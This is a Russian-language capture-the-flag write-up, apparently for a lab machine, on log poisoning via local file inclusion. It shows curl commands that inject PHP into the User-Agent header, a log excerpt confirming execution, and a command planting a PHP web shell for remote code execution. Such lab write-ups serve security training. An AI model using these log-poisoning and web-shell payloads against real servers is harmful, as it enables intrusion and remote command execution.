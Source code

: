 Представим более дальновидного админа, который не стал бы оставлять пароль от учетки пользователя в директории веб-сервера (понимаю, он целых 13 раз защищен, но все же). В этом случае будем пользоваться такой замечательной тактикой, как отравление логов (aka *Log Poisoning*), нужно же оправдать название машины :wink:

### Proof-of-Concept
Для начала проверим, что такая атака осуществима. Логи ваших Апачей во FreeBSD лежат в `/var/log/httpd-*.log` файлах, а именно это:
  1. `/var/log/httpd-access.log` — лог обращений к ресурсу;
  2. `/var/log/httpd-error.log` — лог ошибок.

В существовании таких файлов можно убедиться с помощью все того же LFI.

Воспользуемся `curl`, чтобы проверить выполнимость php-инъекции в User-Agent:
```text
root@kali:~# curl -A "<?php echo('3V1L H4CK3R HERE'); ?>" -X GET "http://10.10.10.84/non-existent-page"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /non-existent-page was not found on this server.</p>
</body></html>
```

И заглянем в `/var/log/httpd-access.log`. Он большой, только последняя запись:

```
<!-- view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log -->

<html><head></head><body>
...
10.10.14.14 - - [15/Sep/2018:22:29:59 +0200] "GET /non-existent-page HTTP/1.1" 404 215 "-" "3V1L H4CK3R HERE"
</body></html>
```

Видно, что сообщение не заключено в php-теги, нет команды echo, откуда очевидно следует, что инжектированный код успешно выполнился.

### Web-Shell → RCE

Мастерим веб-шелл:
```text
root@kali:~# curl -A "<?php system(\$_GET['cmd']); ?>" -X GET "http://10.10.10.84/non-existent-page"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /non-existent-page was not found on this server.</p>
</body></html>
```
